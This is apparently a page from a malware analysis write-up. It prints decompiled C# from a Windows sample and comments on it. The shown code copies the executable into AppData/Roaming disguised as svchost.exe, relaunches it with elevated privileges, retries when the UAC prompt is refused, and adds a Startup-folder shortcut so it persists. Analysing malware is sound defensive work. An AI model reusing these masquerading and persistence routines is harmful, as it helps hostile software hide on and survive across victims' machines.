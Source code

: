 ```cs
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```
